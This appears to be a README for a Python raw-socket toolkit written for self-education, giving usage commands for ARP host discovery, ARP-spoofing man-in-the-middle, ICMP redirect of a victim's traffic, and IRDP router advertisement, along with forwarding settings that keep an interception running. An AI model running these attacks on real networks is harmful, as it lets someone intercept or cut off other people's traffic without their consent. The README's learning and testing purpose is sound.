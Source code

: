 # Agave

## About
Collection of scripts working with raw socket. Written for self education on common protocols of link and network layers. Transportation and application layers protocols, and their vulnerabilities, will be examined in a different repository.

Efficiency and best practices are out of the scope of this repository. These are "learn by doing" scripts gathered together.

## Disclaimer
The author is not responsible for the use of this software. This code is shared for educational purpose.

## Requirements
- Linux, for these scripts use raw socket.
- SUDO privileges, for the very same reason.

## Usage

### ARP

#### Passive hosts discovery
Listen for ARP messages, collecting data on the host in the network.
```
python3 -m agave arp listen
```

#### Active hosts discovery
Sends ARP requests to all the IP addresses in a given subnet to solicit replies in order to discover hosts.
```
# Start listening for messages
python3 -m agave arp listen
# Change terminal
python3 -m agave arp solicit {interface} {subnet} {your_ip} {your_mac}
# Example with arguments
python3 -m agave arp solicit wlp3s0 192.168.1.0/24 192.168.1.100 aa:bb:cc:11:22:33
```

#### Man in the middle
Sends ARP messages in order to achieve a man in the middle attack.
```
# Assuming we want to intercept Bob and Alice
python3 -m agave arp mitm {interface} {your_ip} {alice_mac} {alice_ip} {bob_mac} {bob_ip}
# Example with arguments
python3 -m agave arp mitm wlp3s0 aa:bb:cc:11:22:33 aa:bb:cc:44:55:66 192.168.1.10 aa:bb:cc:77:88:99 192.168.1.1
```
If working, you'll be able to sniff the traffic exchanged by the victims. In order to allow the victims to keep communicate with each other, you need to enable IP forwarding. Disable forwarding might be used to prevent communications.
```
# Set to 0 to stop forwarding
sudo sysctl net.ipv4.ip_forward=1
```
If working, you'll be able to see the poisoned entry in the ARP table. You'll probably notice two entries with the same MAC address. On Linux, you can check it with:
```
arp
```

### ICMP

#### Hosts discovery
```
python3 -m agave icmp discovery {subnet}
python3 -m agave icmp discovery 192.168.1.0/24
```

#### Host redirect
```
python3 -m agave icmp redirect {target} {attacker} {victim} {gateway}
```
Example: redirects 192.168.0.3's (victim) messages for Google server DNS (target) to 192.168.0.2 (attacker). 192.168.0.1 is the router the victim is gonna use to reach the target.
```
python3 -m agave icmp redirect 8.8.8.8 192.168.0.2 192.168.0.3 192.168.0.1
```
The command above is enough to get a couple of messages from the victim. But your system will not forward the messages to their destination, and will tell the victim to use another router to reach the destination instead. So you'll need also to:
```
# Enable forwarding
echo 1 | sudo tee /proc/sys/net/ipv4/conf/*/forwarding
# Prevent your system from redirecting the victim back to the right router
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

### IRDP
I've never tried this one, I saw it and decided to implement it. I just know the messages format is correct (or at least it is for Wireshark).

#### Solicitation
You need to use a sniffer to listen for replies.
```
python3 -m agave irdp solicit
```

#### Advertise
General command to advertise a list of routers.
```
python3 -m agave irdp advertise {preference} {router_1_ip} ... {router_n_ip}
```
Example:
```
python3 -m agave irdp advertise 100 192.168.1.10 192.168.1.20
```


## TODOs
- MAC flooding
- port stealing
- move the package frame in its own repository (?)
